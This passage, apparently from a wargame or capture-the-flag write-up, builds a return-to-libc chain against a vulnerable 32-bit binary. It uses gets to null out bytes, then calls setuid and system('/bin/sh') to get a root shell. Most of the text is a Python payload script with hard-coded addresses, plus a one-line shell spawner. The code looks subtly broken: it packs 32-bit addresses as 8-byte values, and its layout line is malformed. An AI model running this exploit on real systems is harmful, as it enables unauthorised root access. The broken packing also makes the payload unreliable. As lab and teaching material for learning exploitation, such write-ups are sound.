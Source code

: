 ```
b'A'*-x18 + b'BBBB' + gets + pop ebp; ret + address from exit to nullify + 4 * (gets + pop ebp;ret + address to nullify) + setuid + pop ebp; ret + 4 0x00 bytes + system + exit + address of "/bin/sh"
```

Right after `exit` is where we will point our `gets`. Right now
our payload is really big, so ypu should start using a python3
script to run it, if you haven't already.

Mine ended looking like this:

```
import sys
import struct
import os

pop_ret =  struct.pack("Q", 0x080485fb)
gets = struct.pack("Q", 0xf7e5afc0)

payload = b'A' * 0x18
payload += b'BBBB'
payload += gets
payload += pop_ret
payload += struct.pack("Q", 0xffffd288) # address from exit to nullify

for i in range(4):
    payload += gets
    payload += pop_ret
    payload += struct.pack("Q", 0xffffd280 + i) # address of byte to nullify

payload += struct.pack("Q", 0xf7eadd60) # setuid
payload += pop_ret
payload += b'CCCC' # will be nullified afterwards
payload += struct.pack("Q", 0xf7e36850) # system
payload += struct.pack("Q", 0xf7e2a8BB) # exit, with 'BB' instead of null byte
payload += struct.pack("Q", 0xf7f597c8) # address to /bin/sh

sys.stdout.buffer.write(payload)
```

If `setuid` doesn't work, you may have to execute another program (that
you code yourself) that gives you a shell, as root.

You can call a command like `execlp` from libc to execute a simple
python3 script like this:

```
__import__('os').system('/bin/sh -c')
```
